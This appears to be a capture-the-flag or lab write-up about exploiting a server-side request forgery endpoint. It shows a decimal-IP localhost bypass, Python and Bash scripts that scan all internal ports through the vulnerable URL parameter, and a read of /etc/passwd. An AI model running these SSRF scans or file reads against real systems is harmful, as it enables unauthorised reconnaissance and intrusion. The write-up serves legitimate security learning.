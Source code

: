 bypass using `2130706433` as 127.0.0.1 

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#bypass-using-a-decimal-ip-location


http://2130706433:3306

![[Pasted image 20210603213939.png]]

```python
#!/bin/python3

import requests 
import re

total = 0

for i in range(65535):
	url = "http://10.10.13.252:8000/attack?url=http://2130706433:{}".format(i)
	res = requests.get(url=url)
	req = re.findall('Target is not reachable', res.text)
	if(req == ['Target is not reachable']):
		pass
	else:
		print("port {} open".format(i))
		total+=1

print("total open ports {}".format(total))
```



```bash
#!/bin/bash

total=0

for i in {1..65535}
do
	#echo "http://10.1.13.252:${i}"
	port_open=$(curl http://10.10.13.252:8000/attack?url=http://2130706433:$i)
	closed='Target is not reachable'
	if grep -q "$closed" <<< "$port_open"
	then
		:
	else
		echo "port open $i"
	fi
done
echo $total
```

after running we got ports 22, 3306, 5000, 6783 & 8000 open

![[Pasted image 20210603231059.png]]

![[Pasted image 20210603231143.png]]

and total user from `file:///etc/passwd`

![[Pasted image 20210603222544.png]]